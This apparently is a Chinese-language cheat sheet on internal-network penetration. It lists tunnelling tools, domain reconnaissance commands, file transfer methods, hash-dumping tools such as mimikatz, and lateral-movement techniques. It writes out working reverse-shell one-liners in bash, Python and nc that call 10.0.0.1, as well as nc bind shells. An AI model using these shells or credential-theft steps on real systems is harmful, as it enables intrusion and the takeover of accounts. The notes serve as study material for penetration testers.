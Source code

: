 内网渗透
================================

端口转发&&边界代理
--------------------------------

端口转发
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- windows
    - lcx
    - netsh
- linux
    - portmap
    - iptables
- socket代理
    - Win: xsocks
    - Linux: proxychains
- 工具推荐
    - http://rootkiter.com/EarthWorm/
- 基于http的转发与socket代理(低权限下的渗透)
    - 端口转发: tunna
    - socks代理: reGeorg
- ssh通道
    - 端口转发
    - socks

获取shell
--------------------------------

- 常规shell反弹

::

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

- 突破防火墙的imcp_shell反弹
- 正向shell

::

    nc -e /bin/sh -lp 1234
    nc.exe -e cmd.exe -lp 1234

信息收集(结构分析)
--------------------------------

- 基本命令
    - 获取当前组的计算机名：``net view``
    - 查看所有域: ``net view /domain``
    - 从计算机名获取ipv4地址：``ping -n 1 DC1 -4``
    - 查看域中的用户名：``dsquery user``
    - 查询域组名称：``net group /domain``
    - 查询域管理员：``net group "Domain Admins" /domain``
    - 查看当前计算机名，全名，用户名，系统版本，工作 站域，登陆域：``net config Workstation``
    - 查看域控制器：``net group "Domain controllers"``
    - 查询所有计算机名称：``dsquery computer``

- 定位域控
- 端口收集
- 扫描分析

内网文件传输
--------------------------------

- windows下文件传输
    - powershell
    - vbs脚本文件
    - bitsadmin
    - 文件共享
    - 使用telnet接收数据
    - hta
- linux下文件传输
    - python
    - wget
    - tar + ssh
    - 利用dns传输数据
- 文件编译
    - powershell将exe转为txt，再txt转为exe

hash抓取
--------------------------------

- Windows本地密码散列导出工具
    - mimikatz
    - wce
    - gsecdump
    - copypwd
    - Pwdump
- Windows本地密码破解工具
    - L0phtCrack
    - SAMInside
    - Ophcrack
- 彩虹表破解
- 本机hash+明文抓取
- win8+win2012明文抓取
- ntds.dit的导出+QuarkPwDump读取分析
- vssown.vbs + libesedb + NtdsXtract
- ntdsdump
- 利用powershell(DSInternals)分析hash

远程连接 && 执行程序
--------------------------------

- at&schtasks
- psexec
- wmic
- wmiexec.vbs
- smbexec
- powershell remoting
- SC创建服务执行
- schtasks
- SMB+MOF || DLL Hijacks
- PTH + compmgmt.msc